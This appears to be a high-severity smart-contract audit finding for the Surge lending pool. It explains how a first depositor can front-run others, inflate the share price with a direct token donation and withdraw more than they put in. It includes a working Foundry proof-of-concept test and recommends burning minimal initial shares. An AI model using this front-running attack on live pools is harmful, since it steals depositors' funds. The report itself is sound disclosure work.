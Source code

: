 Juntao

high

# First depositor can inflate share price and steal funds from other users

## Summary
Attacker can first deposit small amount of loan token to get pool tokens, and front-run other depositors' transactions and inflate pool token price by large "donation", thus attacker can withdraw more loan tokens than he initially owned.

## Vulnerability Detail
User can get pool token by depositing loan tokens to Pool, the amount of minted pool token is calculated as:
```solidity
function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
    if(_supplied == 0) return _tokenAmount;
    uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
    if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
    return shares;
}
```

Let's assume:
1. Alice deployes a pool and submits transaction to deposit 2 ether;
2. Bob sees Alice's transaction in mempool and front-runs by first depositing 1 wei to the pool and then get 1 pool token;
3. Bob then transfers 1 ether loan token directly to the pool, inflates pool token price to (1 ether + 1);
4. Alice's deposit transaction gets confirmed and Alice get 1 pool token;
5. Bob withdraw from pool and get 1.5 ether loan tokens back, making 0.5 ether profit.

Test Code for PoC:
```solidity
function testFirstDeposit() public {
    address alice = address(1);
    address bob = address(2);

    deal(address(loanToken), bob, 1 ether + 1);
    deal(address(loanToken), alice, 2 ether);

    vm.startPrank(bob);
    loanToken.approve(address(pool), 1);
    pool.deposit(1);
    loanToken.transfer(address(pool), 1 ether);
    vm.stopPrank();

    vm.startPrank(alice);
    loanToken.approve(address(pool), 2 ether);
    pool.deposit(2 ether);
    vm.stopPrank();

    vm.startPrank(bob);
    pool.withdraw(type(uint256).max);
    assertEq(loanToken.balanceOf(bob), 1500000000000000000);
    vm.stopPrank();
}
```

## Impact
User's deposited loan tokens may be stolen by attacker.

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L197-L204
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L304-L343

## Tool used

Manual Review

## Recommendation
Consider minting a minimal amount of pool tokens during the first deposit and sending them to zero address, this increases the cost of the attack. [Uniswap V2](https://uniswap.org/whitepaper.pdf) uses the value 1000 as it is small enough to don't hurt the first minter, while still increasing the cost of this attack by 1000x.